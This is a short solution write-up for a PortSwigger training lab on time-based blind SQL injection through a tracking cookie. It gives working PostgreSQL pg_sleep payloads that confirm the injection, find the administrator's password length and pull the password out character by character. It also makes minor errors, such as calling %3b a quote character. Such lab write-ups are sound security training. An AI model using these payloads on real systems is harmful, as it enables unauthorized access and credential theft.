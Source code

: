 # Lab: Blind SQL injection with time delays and information retrieval

## Lab's description

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

**End goal:**  log in as the `administrator` user.

## Solution

`%3b` for `'` and `pg_sleep(3)` delays for 3 seconds.

Modify your cookie to check for delay responding: `' %3bselect case when (1=1) then pg_sleep(5) else pg_sleep(0) end--`

We will see that it takes 5 seconds to load the website.

Now let check for username: `' %3bselect case when (username='administrator') then pg_sleep(5) else pg_sleep(0) end from users--`

Next we gonna see the length of the password. Send the target to Intruder and loop it from 1 to 20.

Add `§` to number 1

`' %3bselect case when (username='administrator' and length(password) > 1) then pg_sleep(5) else pg_sleep(0) end from users--`

After that, we will discover character-by-character for the password.

`' %3bselect case when (username='administrator' and substring(password,1,1) = a) then pg_sleep(5) else pg_sleep(0) end from users--`

**Resource:** [Lab: Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-time-delays/sql-injection/blind/lab-time-delays-info-retrieval)
